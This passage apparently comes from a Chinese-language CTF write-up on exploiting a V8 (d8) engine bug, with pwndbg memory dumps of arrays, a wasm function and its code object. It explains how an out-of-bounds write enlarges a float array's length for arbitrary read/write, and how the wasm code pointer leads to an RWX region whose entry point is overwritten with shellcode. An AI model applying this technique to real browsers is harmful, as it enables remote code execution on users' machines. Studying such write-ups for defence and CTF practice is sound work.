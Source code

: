 ```c
0x30142028d809 <JSArray[9]>
0x30142028da49 <JSArray[1]>
a_ length is : 0x0000000000000001
float_array length is : 0x000000000000ddaa
```

利用思路总结：

在a_ 数组后面构造一个float array，利用越界写修改float array的length，就可以对float array进行越界读写。后面的利用方式和Plaid CTFs roll a d8相似，最终找rwx区可能因为d8版本问题，数据结构和偏移有些不同。这里通过wasm funciton -> shared_info->code，此时读到的code地址已经位于rwx区中，减去偏移0xc1就是rwx区域的起始地址。但wasm function 调用的代码位于起始地址+0x140处。将其覆盖成shellcode即可。

```c
pwndbg> job 0x1126749b45e9  <--------- wasm function 地址
0x1126749b45e9: [Function]
 - map = 0x126a3be0e649 [FastProperties]
 - prototype = 0x112674984429
 - elements = 0x23a81c002241 <FixedArray[0]> [FAST_HOLEY_ELEMENTS]
 - embedder fields: 3
 - initial_map = 
 - shared_info = 0x1126749b4469 <SharedFunctionInfo 0> <---------------shared_info
 - name = 0x1126749b4449 <String[1]: 0>
 - formal_parameter_count = 0
 - context = 0x112674983bd1 <FixedArray[265]>
 - feedback vector cell = 0x23a81c002811 <Cell value= 0x23a81c002311 <undefined>>
 - code = 0x17a373840c1 <Code JS_TO_WASM_FUNCTION>
 - properties = 0x23a81c002241 <FixedArray[0]> {
    #length: 0x2652937e4961 <AccessorInfo> (const accessor descriptor)
    #name: 0x2652937e49d1 <AccessorInfo> (const accessor descriptor)
    #arguments: 0x2652937e4a41 <AccessorInfo> (const accessor descriptor)
    #caller: 0x2652937e4ab1 <AccessorInfo> (const accessor descriptor)
    #prototype: 0x2652937e4b21 <AccessorInfo> (const accessor descriptor)
 }
 - embedder fields = {
    0
    0x1126749b4209
    0
 }
pwndbg> job 0x1126749b4469   <---------------shared_info
0x1126749b4469: [SharedFunctionInfo]
 - name = 0x1126749b4449 <String[1]: 0>
 - kind = [ NormalFunction ]
 - formal_parameter_count = 0
 - expected_nof_properties = 0
 - language_mode = sloppy
 - ast_node_count = 0
 - instance class name = #Object

 - code = 0x17a373840c1 <Code JS_TO_WASM_FUNCTION> <---------------code
 - function token position = 0
 - start position = 0
 - end position = 0
 - no debug info
 - length = 0
 - optimized_code_map = 0x23a81c002241 <FixedArray[0]>
 - feedback_metadata = 0x23a81c002241: [FeedbackMetadata]
 - length: 0 (empty)

pwndbg> job 0x17a373840c1    <---------------code
0x17a373840c1: [Code]
kind = JS_TO_WASM_FUNCTION
compiler = turbofan
Instructions (size = 43)
0x17a37384140     0  55             push rbp   <--------------wasm function 函数调用地址，将其覆盖成shellcode 
```